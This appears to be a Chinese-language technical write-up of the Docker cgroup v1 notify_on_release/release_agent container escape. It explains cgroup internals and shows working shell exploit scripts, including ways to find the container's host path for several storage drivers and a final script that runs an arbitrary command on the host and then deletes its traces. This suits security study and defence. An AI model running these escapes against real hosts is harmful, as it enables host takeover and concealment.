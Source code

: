 # notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况

![](media/16330951806464/16334143029012.jpg)
可以看到cgroup提供了很多子系统包括cpu、devices、blkio等
![](media/16330951806464/16334144772530.jpg)
以memory子系统为例看下每个子系统包含哪些文件
![](media/16330951806464/16334162215100.jpg)

其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理
1. 需要一个可写的cgroup,至于用cgroup的哪个子系统也就是-o参数应该是都可以的，直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
  
   如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以下针对每种不同的存储驱动的真实位置给出分析
   ### device mapper存储驱动获取真实路径
   device mapper场景读取/etc/mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/[id]/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:

    ```shell
    host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
    ```
    ### aufs存储驱动获取真实路径
    aufs场景下在mtab下记录的挂载信息很少，需要在/sys/fs/aufs/si_[id]目录下查看aufs的mount的情况来拼凑真实路径
    ![](media/16330951806464/16342822281543.jpg)
    那么容器对应在宿主机上的真实路径为
    `/var/lib/docker/aufs/mnt/a6a473a3a20259ac816466fc42e0903e0cf3333b14e2a05e3b48d459aec14349`
    如果想要实际测试，需要看下哪些发行版默认是支持aufs的，默认centos不支持aufs存储驱动，需要安装下支持aufs的内核，以centos8为例
    ```shell
    wget https://yum.spaceduck.org/kernel-ml-aufs/8/x86_64/kernel-ml-aufs-core-5.14.9-1.el8.x86_64.rpm
    wget https://yum.spaceduck.org/kernel-ml-aufs/8/x86_64/kernel-ml-aufs-modules-5.14.9-1.el8.x86_64.rpm
    wget https://yum.spaceduck.org/kernel-ml-aufs/8/x86_64/kernel-ml-aufs-5.14.9-1.el8.x86_64.rpm
    rpm -iv kernel-ml-aufs-core-5.14.9-1.el8.x86_64.rpm 
    rpm -iv kernel-ml-aufs-modules-5.14.9-1.el8.x86_64.rpm 
    rpm -iv kernel-ml-aufs-5.14.9-1.el8.x86_64.rpm 
    ```
    重启系统选择AlmaLinux进去再设置daemon.json即可
    ### btrfs存储驱动获取真实路径
    btrfs场景获取真实路径的方式很简单，读取/etc/mtab
    ![](media/16330951806464/16342824449827.jpg)
    取btrfs的subvol部分加上默认的路径即可，最终路径为
    `/var/lib/docker/btrfs/subvolumes/5a0307fd430e8a74a7bcc9d3d8ffa150084cb896c817c65e375ff63f2830bd5f`
    如果想要实际测试，在虚拟机安装完系统之后对磁盘扩容，创建新的分区如/dev/sda3，然后将磁盘设置为btrfs文件系统挂载到/var/lib/docker下，设置daemon.json文件即可
3. 清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是进程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的
  
## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  ![](media/16330951806464/16336741095529.jpg)
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径

![](media/16330951806464/16336742339526.jpg)
通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 清理痕迹
1. 删除创建的子cgroup
2. 取消/tmp下的cgroup挂载
3. 删除/tmp/cgrp/空目录
4. 删除/cmd文件
5. 删除/output文件
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "$1 > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
sleep 2
cat /output
rmdir /tmp/cgrp/x && umount /tmp/cgrp/ && rm -rf /output /cmd /tmp/cgrp
```
![](media/16330951806464/16337507086945.jpg)


## 参考文档
1. [红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)
2. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
3. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
4. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
5. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
6. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)